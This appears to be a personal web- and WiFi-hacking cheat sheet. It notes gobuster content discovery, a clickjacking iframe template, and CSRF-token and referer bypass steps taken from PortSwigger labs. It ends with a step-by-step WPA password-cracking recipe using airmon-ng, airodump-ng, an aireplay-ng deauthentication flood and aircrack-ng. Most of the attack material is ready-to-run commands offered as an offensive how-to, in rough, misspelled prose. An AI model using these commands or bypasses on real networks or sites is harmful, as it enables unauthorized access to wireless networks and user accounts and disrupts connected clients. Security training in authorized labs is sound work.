 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# CSRF
## CSRF parameter is not available
---> generate CSRF POC and try

## CSRF parameter available 

-> Change action METHOD (GET OR POST)

-> Remove CSRF parameter
eg. email and CSRF
remove CSRF
now> email

-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
    Make a note of the value of the CSRF token, then drop the request.
2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
    Store the exploit, then click "Deliver to victim" to solve the lab.


->if CSRF key cookies and CSRF token are available

https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

->if header error occure
1) so try remove header
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

2) if header remove not work try changing domain like
refrer: http://google.com
to
http://burpsuit/?google.com
https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

Step 1:

Put your wireles lan card on monitor mode

 airmon-ng start "wireless lan card name"
=> airmon-ng start wlan0

Step 2:

Capture Traffic with Airodump-ng

airodump-ng "wireless lan card monitor mode"

=> airodump-ng wlan0mon


Step 3:

Focus airodump-ng on one AP on One Channel

 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


Step 4:

in order to capture the encrypted password we need to have the client authenticate against AP.
we do deauth signal to client

 aireplay-ng --deauth 1000 -a bssid wlan0mon

=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


Step 5:

Now we have to crack the dump file with aircrack-ng

 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
